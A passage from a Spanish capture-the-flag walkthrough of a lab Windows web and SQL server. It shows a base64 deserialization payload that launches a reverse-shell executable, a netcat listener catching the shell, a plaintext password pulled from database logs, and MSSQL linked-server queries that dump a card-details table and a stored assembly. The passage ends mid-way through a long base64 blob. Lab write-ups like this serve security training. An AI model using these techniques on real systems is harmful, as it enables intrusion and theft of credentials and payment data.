ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBjbWQgL2MgQzpcXFByb2dyYW1EYXRhXFxzaGVsbC5leGUnDQogICAgICAgIH0NCiAgICB9DQp9  
PS C:\CTF\ysoserial>
```

  

Cambiamos el `payload` y al recargar la página de nuevo esta vez se ejecuta el `exe` y recibimos una `powershell` como el usuario `web_user` en la máquina victima

```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.12
Windows PowerShell running as user web_user on WEB
Copyright (C) Microsoft Corporation. All rights reserved.  

PS C:\Windows\system32> whoami
teignton\web_user
PS C:\Windows\system32>
```

  

En el directorio de `Public` dentro de `Users` podemos encontrar y leer la `flag`

```
PS C:\Users\Public> dir

    Directory: C:\Users\Public 

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       12/10/2020     14:33                Documents
d-r---       15/09/2018     08:19                Downloads  
d-r---       15/09/2018     08:19                Music
d-r---       15/09/2018     08:19                Pictures
d-r---       15/09/2018     08:19                Videos
-a----       15/07/2020     20:45             46 flag.txt

PS C:\Users\Public> type flag.txt   
CONTEXT{uNs4fe_deceri4liz3r5?!_th33333yre_gr8} 
PS C:\Users\Public>
```

### This looks bad!


En `C:\` encontramos un directorio `Logs` que dentro tiene un directorio `WEBDB` que dentro tiene varios archivos de `log` probablemente de la base de datos de la web

```
PS C:\> dir 

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/10/2020     23:14                9624b4180591c9eb43d11878de360a
d-r---       12/10/2020     18:59                Clients
d-----       02/06/2022     12:10                ExchangeSetupLogs
d-----       12/10/2020     15:44                inetpub
d-----       12/10/2020     18:45                Logs
d-----       12/10/2020     15:15                PerfLogs
d-r---       14/10/2020     17:19                Program Files
d-----       12/10/2020     19:31                Program Files (x86)
d-----       13/10/2020     00:40                root
d-----       12/10/2020     15:43                SQL2019
d-----       17/04/2023     17:24                tmp
d-r---       12/10/2020     19:31                Users
d-----       14/10/2020     11:55                Windows
-a----       14/04/2023     17:41             29 BitlockerActiveMonitoringLogs

PS C:\> cd Logs

PS C:\Logs> dir

    Directory: C:\Logs

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/10/2020     18:45                W3SVC1
d-----       12/10/2020     18:45                WEBDB

PS C:\Logs> cd WEBDB

PS C:\Logs\WEBDB> dir

    Directory: C:\Logs\WEBDB

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       30/04/2020     15:42          16962 ERRORLOG
-a----       30/04/2020     15:41          38740 ERRORLOG.1
-a----       27/04/2020     14:47          70144 HkEngineEventFile_0_132324688578520000.xel
-a----       27/04/2020     14:47          70144 HkEngineEventFile_0_132324688633370000.xel
-a----       27/04/2020     14:47          70144 HkEngineEventFile_0_132324688733830000.xel
-a----       27/04/2020     14:57          70144 HkEngineEventFile_0_132324694642170000.xel
-a----       27/04/2020     15:09          70144 HkEngineEventFile_0_132324701496760000.xel
-a----       28/04/2020     11:11          70144 HkEngineEventFile_0_132325422936270000.xel
-a----       29/04/2020     15:23          70144 HkEngineEventFile_0_132326437911670000.xel
-a----       29/04/2020     16:04          70144 HkEngineEventFile_0_132326462946300000.xel
-a----       29/04/2020     16:08          70144 HkEngineEventFile_0_132326464955870000.xel
-a----       30/04/2020     09:55          70144 HkEngineEventFile_0_132327105065260000.xel
-a----       30/04/2020     10:15          70144 HkEngineEventFile_0_132327117227960000.xel
-a----       30/04/2020     10:56          70144 HkEngineEventFile_0_132327142045910000.xel
-a----       30/04/2020     12:33          70144 HkEngineEventFile_0_132327199844110000.xel
-a----       30/04/2020     14:45          70144 HkEngineEventFile_0_132327279504690000.xel
-a----       30/04/2020     15:41          70144 HkEngineEventFile_0_132327312839890000.xel  
-a----       30/04/2020     10:55        1048576 log_10.trc
-a----       30/04/2020     11:34        1048576 log_11.trc
-a----       30/04/2020     14:45        1048576 log_12.trc
-a----       30/04/2020     15:41        1048576 log_13.trc
-a----       30/04/2020     15:41           2560 log_14.trc
-a----       30/04/2020     11:34         130048 system_health_0_132327142055920000.xel
-a----       30/04/2020     14:45         160768 system_health_0_132327199872080000.xel
-a----       30/04/2020     15:41         131072 system_health_0_132327279509840000.xel
-a----       30/04/2020     15:41          98816 system_health_0_132327312844270000.xel

PS C:\Logs\WEBDB>
```

  

En un log podemos encontrar `credenciales` probablemente validas para la `db`

```
PS C:\Logs\WEBDB> type log_13.trc | Select-String TEIGNTON

????????? ??? ?????? ?????????? ??????? TEIGNTON\karl.memaybe  
????????? ??? ?????? ?????????? ??????? B6rQx_d&RVqvcv2A

PS C:\Logs\WEBDB>
```

  

El puerto `1433` esta abierto asi que podemos conectarnos con `mssqlclient`, asi podemos comprobar que las `credenciales` que conseguimos son `validas`

```
❯ impacket-mssqlclient teignton.htb/karl.memaybe:'B6rQx_d&RVqvcv2A'@10.13.37.12 -windows-auth  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WEB\WEBDB): Line 1: Changed database context to 'master'.
[*] INFO(WEB\WEBDB): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 822) 
[!] Press help for extra shell commands
SQL>
```

  

Mirando las `bases de datos` la mas interesante parece ser la db `webapp` pero no tenemos acceso a ella asi que poco podemos hacer con esta sesión de `mssql`

```
SQL> select name from sysdatabases;  

name
------

master
tempdb
model
msdb
webapp

SQL>
```

  

Si miramos el nombre del `servidor` actualmente en uso es el servidor `WEBDB`

```
SQL> select @@servername;

---------

WEB\WEBDB

SQL>
```

  

Sin embargo este `servidor` no es el unico, listando todos encontramos `CLIENTS`

```
SQL> select srvname from sysservers;  

srvname
-----------

WEB\CLIENTS
WEB\WEBDB

SQL>
```

  

Usando `openquery` podemos ejecutar las `querys` desde el servidor `CLIENTS`

```
SQL> select * from openquery([web\clients], 'select @@servername;');  

-----------
WEB\CLIENTS

SQL>
```

  

Al listar las `bases de datos` desde este `servidor` podemos ver una nueva que no podiamos ver antes, el nombre de la db es `clients` a la cual si que tenemos acceso

```
SQL> select * from openquery([web\clients], 'select name from sysdatabases;');  

name
-------
master
tempdb
model
msdb
clients

SQL>
```

  

Listando los `objetos` de la base de datos `clients` vemos la tabla `card_details`

```
SQL> select * from openquery([web\clients], 'select name from clients.sys.objects;');  

name
----------------------------

BackupClients
card_details
QueryNotificationErrorsQueue
queue_messages_1977058079
EventNotificationErrorsQueue
queue_messages_2009058193
ServiceBrokerQueue
queue_messages_2041058307

SQL>
```

  

La tabla `card_details` tiene demasiada informacion asi que nos conectamos con `sqsh` y si en el output grepeamos por la cadena `CONTEXT` podemos ver la flag

```
❯ sqsh -S 10.13.37.12:1433 -U 'teignton\karl.memaybe' -P 'B6rQx_d&RVqvcv2A'
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'

1> select * from openquery([web\clients], 'select * from clients.dbo.card_details;');  
2> go | grep CONTEXT
CONTEXT{g1mm2_g1mm3_g1mm4_y0ur_cr3d1t}
1>
```

  

  

### It's not a backdoor, it's a feature

#### CONTEXT{l0l_s0c3ts_4re_fun}

  

Además de eso en la base de datos `clients` tambien encontramos algunos archivos en `assembly_files`, para poder tener todo su contenido lo pasaremos a `base64`

```
SQL> select cast (N'' as xml).value('xs:base64Binary(sql:column("content"))','varchar(max)') as data from openquery([web\clients], 'select * from clients.sys.assembly_files;') order by content desc offset 1 rows;

data                                                                                                                                                                                                                                                    
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------  

b'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4QMSAw4ADwT5Aw4AMAQdBA4AQgT5Aw4ATQT5Aw4AaQQdBAAAAAABAAAAAAABAAEAAQAQABUAAAAFAAEAAQAJABAAJwAAAAUAAgAHAAEBAAAzAAAADQAKAAgAAQEAAEEAAAANABAACAABAQAATgAAAA0AFQAIAAEAEABiAAAABQAiAAgAAQCbAAoABgAFAS0ABgBBADEABgALATUABgAXATkABgAdAQoABgAnAQoABgAyAQoABgA6AQoABgZDATkAVoBLAS0AVoBVAS0AVoBjAS0AVoBuAS0AVoB1AS0ABgZDATkAVoB9ATEAVoCBATEAVoCGATEAVoCMATEABgZDATkAVoCVATUAVoCdATUAVoCkATUAVoCrATUAVoCxATUAVoC2ATUAVoC8ATUAVoDEATUAVoDJATUAVoDUATUAVoDeATUAVoDjATUAUCAAAAAAhhjFAA0AAQDUIAAAAADEAMsAFAADAAghAAAAAOYB1AAUAAMAGiEAAAAAxAHUABgAAwAAAAAAgACRINwAHQAEAAAAAACAAJEg7wAmAAgAKyEAAAAAhhjFABQACwA0IQAAAACWAPABeAALANwhAAAAAJYAGAJ8AAsA1CMAAAAAhhjFABQACwAAAAEAJQIAAAIAMQIAAAEAPQIAAAEARwIAAAIAUwIAAAMAXAIAAAQAZQIAAAEAawIAAAIAZQIAAAMAcAICAAkAMQDFAIEAOQDFABQACQDFABQAIQDbAoYAIQDoAoYAQQD7AoYASQALA4oAUQDFAJAACQDLABQAWQArA58AYQDFAKQAaQDFAKkAeQDFABQAIQDFAK8AgQDFAKQACQD7AoYAiQDsA6QAEQDUABQAKQDFABQAKQDyA8QAkQDFAKQAmQA9BBQAoQDFAMoAoQBbBNEAsQB2BNYAsQCCBNoAsQCMBNYACAAsADwACAAwAEEACAA0AEYACAA4AEsACAA8AFAACABEAFUACABIADwACABMAEEACABQAFoACABYAFUACABcADwACABgAEEACABkAEYACABoAEsACABsAFAACABwAF8ACAB0AGQACAB4AFoACAB8AGkACACAAG4ACACEAHMALgALAPkALgATAAIBAAFrADwAlgC2AN8AbgMAAQsA3AABAAABDQDvAAEABIAAAAAAAAAAAAAAAAAAAAAA1AIAAAQAAAAAAAAAAAAAAAEAcwAAAAAABAAAAAAAAAAAAAAAAQB8AAAAAAAEAAAAAAAAAAAAAAABAJcDAAAAAAAAADxNb2R1bGU+AHN0b3JlZC5kbGwATmV0d29ya0Nvbm5lY3Rpb24ATmV0UmVzb3VyY2UAUmVzb3VyY2VTY29wZQBSZXNvdXJjZVR5cGUAUmVzb3VyY2VEaXNwbGF5dHlwZQBTdG9yZWRQcm9jZWR1cmVzAG1zY29ybGliAFN5c3RlbQBPYmplY3QASURpc3Bvc2FibGUARW51bQBfbmV0d29ya05hbWUAU3lzdGVtLk5ldABOZXR3b3JrQ3JlZGVudGlhbAAuY3RvcgBGaW5hbGl6ZQBEaXNwb3NlAFdOZXRBZGRDb25uZWN0aW9uMgBXTmV0Q2FuY2VsQ29ubmVjdGlvbjIAU2NvcGUARGlzcGxheVR5cGUAVXNhZ2UATG9jYWxOYW1lAFJlbW90ZU5hbWUAQ29tbWVudABQcm92aWRlcgB2YWx1ZV9fAENvbm5lY3RlZABHbG9iYWxOZXR3b3JrAFJlbWVtYmVyZWQAUmVjZW50AENvbnRleHQAQW55AERpc2sAUHJpbnQAUmVzZXJ2ZWQAR2VuZXJpYwBEb21haW4AU2VydmVyAFNoYXJlAEZpbGUAR3JvdXAATmV0d29yawBSb290AFNoYXJlYWRtaW4ARGlyZWN0b3J5AFRyZWUATmRzY29udGFpbmVyAEJhY2t1cENsaWVudHMAU3lzdGVtLlRleHQAU3RyaW5nQnVpbGRlcgBHZW5lcmF0ZUhUTUwAbmV0d29ya05hbWUAY3JlZGVudGlhbHMAZGlzcG9zaW5nAG5ldFJlc291cmNlAHBhc3N3b3JkAHVzZXJuYW1lAGZsYWdzAG5hbWUAZm9yY2UAU3lzdGVtLlJ1bnRpbWUuQ29tcGlsZXJTZXJ2aWNlcwBDb21waWxhdGlvblJlbGF4YXRpb25zQXR0cmlidXRlAFJ1bnRpbWVDb21wYXRpYmlsaXR5QXR0cmlidXRlAHN0b3JlZABnZXRfUGFzc3dvcmQAZ2V0X1VzZXJOYW1lAEludDMyAFRvU3RyaW5nAFN0cmluZwBDb25jYXQAU3lzdGVtLklPAElPRXhjZXB0aW9uAEdDAFN1cHByZXNzRmluYWxpemUAU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzAERsbEltcG9ydEF0dHJpYnV0ZQBtcHIuZGxsAFN0cnVjdExheW91dEF0dHJpYnV0ZQBMYXlvdXRLaW5kAFN5c3RlbS5EYXRhAE1pY3Jvc29mdC5TcWxTZXJ2ZXIuU2VydmVyAFNxbFByb2NlZHVyZUF0dHJpYnV0ZQBTdHJlYW1Xcml0ZXIAVGV4dFdyaXRlcgBXcml0ZQBBcHBlbmQAU3lzdGVtLkRhdGEuU3FsQ2xpZW50AFNxbENvbm5lY3Rpb24AU3lzdGVtLkRhdGEuQ29tbW9uAERiQ29ubmVjdGlvbgBPcGVuAFNxbENvbW1hbmQAU3FsRGF0YVJlYWRlcgBFeGVjdXRlUmVhZGVyAERiRGF0YVJlYWRlcgBnZXRfSGFzUm93cwBHZXRTdHJpbmcAUmVhZAAAAAAARUUAcgByAG8AcgAgAGMAbwBuAG4AZQBjAHQAaQBuAGcAIAB0AG8AIAByAGUAbQBvAHQAZQAgAHMAaABhAHIAZQA6ACAAABFUAEUASQBHAE4AVABPAE4AABlqAGEAeQAuAHQAZQBpAGcAbgB0AG8AbgAAKUQAMABuAHQATAAwAHMAZQBTAGsAMwBsADMAdABvAG4ASwAzAHkAIQAAG1wAXABXAEUAQgBcAEMAbABpAGUAbgB0AHMAADVcAFwAVwBFAEIAXABDAGwAaQBlAG4AdABzAFwAYwBsAGkAZQBuAHQAcwAuAGgAdABtAGwAAIn3PAAhAEQATwBDAFQAWQBQAEUAIABIAFQATQBMACAAUABVAEIATABJAEMAIAAiAC0ALwAvAFcAMwBDAC8ALwBEAFQARAAgAEgAVABNAEwAIAA0AC4AMAAgAFQAcgBhAG4AcwBpAHQAaQBvAG4AYQBsAC8ALwBFAE4AIgA+AAoACgA8AGgAdABtAGwAPgAKADwAaABlAGEAZAA+AAoACQAKAAkAPABtAGUAdABhACAAaAB0AHQAcAAtAGUAcQB1AGkAdgA9ACIAYwBvAG4AdABlAG4AdAAtAHQAeQBwAGUAIgAgAGMAbwBuAHQAZQBuAHQAPQAiAHQAZQB4AHQALwBoAHQAbQBsADsAIABjAGgAYQByAHMAZQB0AD0AdQB0AGYALQA4ACIALwA+AAoACQA8AHQAaQB0AGwAZQA+ADwALwB0AGkAdABsAGUAPgAKAAkAPABtAGUAdABhACAAbgBhAG0AZQA9ACIAZwBlAG4AZQByAGEAdABvAHIAIgAgAGMAbwBuAHQAZQBuAHQAPQAiAEwAaQBiAHIAZQBPAGYAZgBpAGMAZQAgADYALgAwAC4ANwAuADMAIAAoAEwAaQBuAHUAeAApACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBjAHIAZQBhAHQAZQBkACIAIABjAG8AbgB0AGUAbgB0AD0AIgAwADAAOgAwADAAOgAwADAAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAGMAaABhAG4AZwBlAGQAYgB5ACIAIABjAG8AbgB0AGUAbgB0AD0AIgBDAG8AbgB0AGUAeAB0ACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBjAGgAYQBuAGcAZQBkACIAIABjAG8AbgB0AGUAbgB0AD0AIgAyADAAMgAwAC0AMAAxAC0AMQA2AFQAMQAyADoANQA3ADoANAA0ACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBBAHAAcABWAGUAcgBzAGkAbwBuACIAIABjAG8AbgB0AGUAbgB0AD0AIgAxADYALgAwADMAMAAwACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBEAG8AYwBTAGUAYwB1AHIAaQB0AHkAIgAgAGMAbwBuAHQAZQBuAHQAPQAiADAAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAEgAeQBwAGUAcgBsAGkAbgBrAHMAQwBoAGEAbgBnAGUAZAAiACAAYwBvAG4AdABlAG4AdAA9ACIAZgBhAGwAcwBlACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBMAGkAbgBrAHMAVQBwAFQAbwBEAGEAdABlACIAIABjAG8AbgB0AGUAbgB0AD0AIgBmAGEAbABzAGUAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAFMAYwBhAGwAZQBDAHIAbwBwACIAIABjAG8AbgB0AGUAbgB0AD0AIgBmAGEAbABzAGUAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAFMAaABhAHIAZQBEAG8AYwAiACAAYwBvAG4AdABlAG4AdAA9ACIAZgBhAGwAcwBlACIALwA+AAoACQAKAAkAPABzAHQAeQBsAGUAIAB0AHkAcABlAD0AIgB0AGUAeAB0AC8AYwBzAHMAIgA+AAoACQAJAGIAbwBkAHkALABkAGkAdgAsAHQAYQBiAGwAZQAsAHQAaABlAGEAZAAsAHQAYgBvAGQAeQAsAHQAZgBvAG8AdAAsAHQAcgAsAHQAaAAsAHQAZAAsAHAAIAB7ACAAZgBvAG4AdAAtAGYAYQBtAGkAbAB5ADoAIgBBAHIAaQBhAGwAIgA7ACAAZgBvAG4AdAAtAHMAaQB6AGUAOgB4AC0AcwBtAGEAbABsACAAfQAKAAkACQBhAC4AYwBvAG0AbQBlAG4AdAAtAGkAbgBkAGkAYwBhAHQAbwByADoAaABvAHYAZQByACAAKwAgAGMAbwBtAG0AZQBuAHQAIAB7ACAAYgBhAGMAawBnAHIAbwB1AG4AZAA6ACMAZgBmAGQAOwAgAHAAbwBzAGkAdABpAG8AbgA6AGEAYgBzAG8AbAB1AHQAZQA7ACAAZABpAHMAcABsAGEAeQA6AGIAbABvAGMAawA7ACAAYgBvAHIAZABlAHIAOgAxAHAAeAAgAHMAbwBsAGkAZAAgAGIAbABhAGMAawA7ACAAcABhAGQAZABpAG4AZwA6ADAALgA1AGUAbQA7ACAAIAB9ACAACgAJAAkAYQAuAGMAbwBtAG0AZQBuAHQALQBpAG4AZABpAGMAYQB0AG8AcgAgAHsAIABiAGEAYwBrAGcAcgBvAHUAbgBkADoAcgBlAGQAOwAgAGQAaQBzAHAAbABhAHkAOgBpAG4AbABpAG4AZQAtAGIAbABvAGMAawA7ACAAYgBvAHIAZABlAHIAOgAxAHAAeAAgAHMAbwBsAGkAZAAgAGIAbABhAGMAawA7ACAAdwBpAGQAdABoADoAMAAuADUAZQBtADsAIABoAGUAaQBnAGgAdAA6ADAALgA1AGUAbQA7ACAAIAB9ACAACgAJAAkAYwBvAG0AbQBlAG4AdAAgAHsAIABkAGkAcwBwAGwAYQB5ADoAbgBvAG4AZQA7ACAAIAB9ACAACgAJADwALwBzAHQAeQBsAGUAPgAKAAkACgA8AC8AaABlAGEAZAA+AAoACgA8AGIAbwBkAHkAPgAKADwAdABhAGIAbABlACAAYwBlAGwAbABzAHAAYQBjAGkAbgBnAD0AIgAwACIAIABiAG8AcgBkAGUAcgA9ACIAMAAiAD4ACgAJADwAYwBvAGwAZwByAG8AdQBwACAAdwBpAGQAdABoAD0AIgAxADgAMAAiAD4APAAvAGMAbwBsAGcAcgBvAHUAcAA+AAoACQA8AGMAbwBsAGcAcgBvAHUAcAAgAHcAaQBkAHQAaAA9ACIAMgAyADMAIgA+ADwALwBjAG8AbABnAHIAbwB1AHAAPgAKAAkAPABjAG8AbABnAHIAbwB1AHAAIAB3AGkAZAB0AGgAPQAiADIAMAA3ACIAPgA8AC8AYwBvAGwAZwByAG8AdQBwAD4ACgAJADwAYwBvAGwAZwByAG8AdQBwACAAdwBpAGQAdABoAD0AIgA2ADQAMgAiAD4APAAvAGMAbwBsAGcAcgBvAHUAcAA+AAoACQA8AGMAbwBsAGcAcgBvAHUAcAAgAHcAaQBkAHQAaAA9A